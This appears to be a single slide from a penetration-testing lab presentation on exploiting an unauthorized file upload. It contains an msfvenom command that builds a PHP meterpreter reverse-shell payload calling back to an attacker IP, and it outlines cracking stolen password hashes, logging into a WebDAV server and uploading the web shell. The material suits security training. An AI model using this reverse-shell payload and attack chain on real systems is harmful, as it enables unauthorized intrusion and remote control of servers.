

# Exploitation: Unauthorized File Upload
01

02

03

PHP Script Command - `msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.1.90 lport=4444 >> reversshell2.php`

Achievements
By generating to web shell, bad actors are able to execute arbitrary shell commands on the target machine

Uploading PHP web shell to  allow and execute the shell commands on the target VM.

Tools & Processes
Hash crack website (https://crackstation.net/) to crack stolen credentials from secret_folder to connect to WebDAV server.

Creating a PHP script and generate custom web shell with Msfvenom.

Upload shell on WenDav.